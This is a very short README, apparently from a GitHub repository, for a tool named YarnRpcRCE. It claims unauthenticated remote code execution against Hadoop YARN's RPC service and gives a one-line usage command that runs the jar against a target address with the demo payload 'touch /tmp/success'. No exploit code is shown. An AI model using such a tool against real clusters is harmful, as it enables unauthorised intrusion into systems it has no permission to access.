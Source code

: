 # YarnRpcRCE

## What's this

Yarn RPC Unauth RCE

## How to use

```
java -jar YarnRpcUnauth.jar ip:port "touch /tmp/success"
```
